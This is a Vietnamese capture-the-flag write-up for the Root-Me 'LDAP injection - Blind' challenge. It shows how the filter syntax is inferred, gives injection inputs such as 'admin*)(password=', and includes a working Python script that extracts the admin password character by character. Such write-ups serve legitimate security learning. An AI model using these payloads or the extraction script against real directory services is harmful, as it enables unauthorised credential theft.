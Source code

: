 # LDAP injection - Blind (Hard - 55 pts)

Lỗ hổng xảy ra ở: http://challenge01.root-me.org/web-serveur/ch26/?action=dir&search=

Ở đây sẽ thực hiện tìm kiếm một account dựa trên email.

Để kiểm chứng điều này mình sẽ ví dụ:

Account bên dưới có sn là jsmith và email là j.smith@ch26.challenge01.root-me.org

![image](https://user-images.githubusercontent.com/83667873/151546619-6a56934f-a472-4e84-9850-f43824952b5d.png)

Khi mình nhập thông tin tìm kiếm là "js" kết quả tìm kiếm không hiển thị

Nhưng khi mình nhập thông tin tìm kiếm là j.s thì kết quả hiện thị ra thông tin của account trên, mà j.s chỉ xuất hiện trong email chứng tỏ ở đây người ta thực hiện tìm kiếm theo email.

Giờ mình có thể suy ra được cú phát câu query có dạng:

```
(operotor(email=*input*) 
```

*Với operator có thể là AND (&), OR (|), not (!)

Tiếp theo mình sẽ kiểm tra xem operator được sử dụng là gì

Mình sẽ nhập vào input:

```
j*)(cn=j
```

khi này câu query sẽ trở thành dạng:

```
(operator(email=*j*)(cn=j*))
```

Với câu query này thì kết quả là thành công

Khi mình thay input thành:

```
j*)(cn=js
```
Khi thay thành js thì chỉ có cn thỏa mà email không thỏa và cho ra 0 kết quả tìm kiếm chứng tỏ operator đang sử dụng là &

Vậy cú phát tìm kiếm có thể là:
```
(&(email=*input*))
```
Giờ chúng ta chỉ cần thực hiện tương tự như trên để thực hiện tìm password của admin:

```
admin*)(password=somthing
```
Solve code:

```
import requests
import string

url = 'http://challenge01.root-me.org/web-serveur/ch26/'
charlist = string.ascii_letters + string.digits + "_@{}-/()!\"$%=^[]:;"

def findPass():
	password = ''
	while True:
		for i in charlist:
			r = requests.get(url+'?action=dir&search=admin*)(password='+password+i)
			if "admin" in r.text:
				password += i
				print(password)
				break
		else:
			break
	return password

def main():
	print("[+] Found admin's password: ", findPass())

if __name__=="__main__":
	main()
```

Kết quả:

![image](https://user-images.githubusercontent.com/83667873/151564753-be811fdc-acba-43f0-be1e-a3ca6ad5c452.png)

![image](https://user-images.githubusercontent.com/83667873/151564863-bb9207db-b113-45e1-aded-00c3b145613b.png)

